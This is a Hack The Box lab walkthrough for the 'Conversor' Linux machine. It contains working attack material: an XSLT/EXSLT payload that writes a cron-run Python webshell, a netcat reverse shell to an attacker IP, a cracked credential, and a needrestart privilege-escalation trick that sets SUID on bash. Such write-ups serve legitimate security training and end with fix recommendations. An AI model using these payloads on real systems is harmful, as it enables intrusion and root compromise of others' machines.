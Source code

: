 # Conversor — Hack The Box

![Conversor](../images/Conversor.png)

**Machine:** Conversor  
**Difficulty:** Easy  
**OS:** Linux  
**IP:** 10.10.11.92  
**Date:** 2025-10-31  
**Tags:** XSLT Injection, File Upload, Cron Jobs, Privilege Escalation

---

## Summary

Conversor is an easy Linux box exploiting an XSLT injection in a file conversion web app.  
The attacker writes a Python cron webshell for RCE, extracts credentials from a weakly hashed database, and escalates privileges via `sudo needrestart`.

**Attack Path:**  
Web enumeration → XSLT injection → Cron-executed webshell → SSH credentials → needrestart → root.

---

## Recon

### Nmap

```bash
nmap -sC -sV -p- --min-rate=5000 -T5 10.10.11.92 -oN nmap_scan.txt
```

```
22/tcp open  ssh     OpenSSH 8.9p1
80/tcp open  http    Apache 2.4.52
```

* Hostname: `conversor.htb`
* Web app on port 80, login form at `/`.

```bash
echo "10.10.11.92 conversor.htb" | sudo tee -a /etc/hosts
```

---

## Source Code Discovery

`/about` revealed a downloadable `source.tar`.
Extracted files showed:

* `app.py` (Flask app)
* `instance/users.db` (SQLite)
* `scripts/` (executed by cron)
* `install.md` (paths + cron info)

Cron job:

```
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```

---

## Exploitation

### XSLT Injection → File Write

The XSLT processor allowed EXSLT extensions, enabling arbitrary file writes.

Payload (`webshell.xslt`) writes `shell.py` to `/var/www/conversor.htb/scripts/`:

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:exsl="http://exslt.org/common"
extension-element-prefixes="exsl" version="1.0">
<xsl:template match="/">
<exsl:document href="/var/www/conversor.htb/scripts/shell.py" method="text"><![CDATA[
#!/usr/bin/env python3
import os, subprocess, traceback
CMD="/var/www/conversor.htb/static/cmd.txt"
OUT="/var/www/conversor.htb/static/out.txt"
try:
    if os.path.exists(CMD):
        cmd=open(CMD).read().strip()
        if cmd:
            out=subprocess.getoutput(cmd)
            open(OUT,"w").write(out)
            open(CMD,"w").close()
except Exception as e:
    open(OUT,"w").write(str(e))
]]></exsl:document>
</xsl:template></xsl:stylesheet>
```

Uploaded both XML and XSLT. Cron executed in ~1 min.

---

### Verify RCE

Write command to `cmd.txt` via another XSLT:

```xml
<exsl:document href="/var/www/conversor.htb/static/cmd.txt" method="text"><![CDATA[id]]></exsl:document>
```

Check output:

```bash
curl http://conversor.htb/static/out.txt
```

```
uid=33(www-data) gid=33(www-data)
```

RCE confirmed.

---

### Reverse Shell

Write reverse shell command:

```xml
<exsl:document href="/var/www/conversor.htb/static/cmd.txt" method="text"><![CDATA[busybox nc 10.10.14.114 443 -e bash]]></exsl:document>
```

Start listener:

```bash
nc -lvnp 443
```

Shell received as `www-data`.

---

## Lateral Movement

### Credential Dump

```bash
strings /var/www/conversor.htb/instance/users.db
```

Found:

```
fismathack:5b5c3ac3a1c897c94caad48e6c71fdec
```

Cracked MD5 → `Keepmesafeandwarm`

SSH:

```bash
ssh fismathack@10.10.11.92
```

User flag: `HTB{redacted}`

---

## Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

```
(root) NOPASSWD: /usr/sbin/needrestart
```

Exploit with malicious config:

```bash
echo 'system("chmod +s /bin/bash");' > root.sh
sudo /usr/sbin/needrestart -c root.sh
```

Now `/bin/bash` has SUID bit.

Root shell:

```bash
/bin/bash -p
id
# euid=0(root)
```

Root flag: `HTB{redacted}`

---

## Summary of Exploits

| Stage | Vulnerability      | Result     |
| ----- | ------------------ | ---------- |
| 1     | XSLT Injection     | File write |
| 2     | Cron Job Execution | RCE        |
| 3     | Weak MD5 Hash      | User creds |
| 4     | Sudo needrestart   | Root       |

---

## Fix Recommendations

1. Disable EXSLT and restrict output file paths.
2. Use salted password hashing (bcrypt or Argon2).
3. Remove unnecessary cron tasks.
4. Audit sudo rules, avoid granting `needrestart` to users.

---

## Tools

`nmap`, `curl`, `sqlite3`, `netcat`, `hashcat`, `ffuf`

---

**Author:** Erviano Florentino Susanto
**Platform:** Hack The Box
**Date:** 2025-10-31
**Flags:** User HTB{redacted}, Root HTB{redacted}

---
